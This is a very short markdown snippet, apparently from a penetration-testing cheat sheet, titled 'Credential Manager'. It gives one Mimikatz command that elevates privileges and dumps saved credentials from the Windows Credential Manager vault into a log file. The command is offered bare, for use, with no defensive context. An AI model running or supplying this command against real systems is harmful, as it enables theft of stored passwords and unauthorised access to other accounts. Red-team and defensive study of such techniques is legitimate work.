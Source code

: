 # Credential Manager




## Mimikatz

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "log out.txt" "vault::cred /patch" "exit"
```
